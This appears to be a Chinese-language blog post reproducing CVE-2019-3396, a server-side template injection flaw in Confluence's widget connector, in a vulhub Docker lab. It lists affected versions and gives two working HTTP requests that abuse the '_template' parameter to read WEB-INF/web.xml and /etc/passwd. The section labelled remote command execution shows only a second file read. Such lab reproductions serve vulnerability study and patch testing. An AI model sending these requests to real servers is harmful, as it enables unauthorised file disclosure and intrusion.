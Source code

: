 ```yaml
---
layout:     post
title:      【漏洞复现】confluence远程代码执行漏洞(CVE-2019-3396)
subtitle:   远程代码执行漏洞
date:       2020-11-11
author:     matrix
header-img: img/websecurity.jpeg
catalog: true
tags:
    - 漏洞复现 - 远程代码执行漏洞
---
```

## 0x00 漏洞说明
Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。其中Confluence Server和Data Center产品中使用的小工具连接器widgetconnecter组件（版本<=3.1.3）中存在服务器端模板注入漏洞（SSTI）。
攻击者可利用该漏洞对系统进行路径遍历、服务端请求伪造（SSRF）、远程代码执行（RCE）
## 0x01 影响版本
### 产品
Confluence Server
Confluence Data Center
2.0.0 <= version < 6.6.13
6.7.0 <= version < 6.12.4
6.13.0 <= version < 6.13.4
6.14.0 <= version < 6.14.3
6.15.0 <= version < 6.15.2
### 组件
widgetconnector
version <= 3.1.3## 0x02 复现环境
vulhub
## 0x03 漏洞复现
### 0、环境搭建
docker-compose up -d
![-c1596](/img/16050835682883.jpg)
![-c1621](/img/16050838207076.jpg)

serverID:B57H-6NLA-AC9K-HXR7
![-c1139](/img/16050840799162.jpg)
![-c1146](/img/16050841402196.jpg)
![-c705](/img/16050857569665.jpg)
![-c820](/img/16050873798223.jpg)
![-c1791](/img/16050878611758.jpg)
### 1、漏洞利用
#### 本地文件读取
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.32.112.95:8090
Content-Type: application/json
Referer: http://10.32.112.95:8090/
Content-Length: 171

{"contentId":"0","macro":{"name":"widget","body":"","params":{"url":"metacafe.com","width":"300","height":"200","_template":"WEB-INF/web.xml"}}}
```
![-c1786](/img/16051456167539.jpg)
#### 远程命令执行
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 10.32.112.95:8090
Content-Type: application/json
Referer: http://10.32.112.95:8090/
Content-Length: 147

{"contentId":"0","macro":{"name":"widget","body":"","params":{"url":"metacafe.com","width":"300","height":"200","_template":"file:///etc/passwd"}}}
```
![-c1786](/img/16051470391309.jpg)

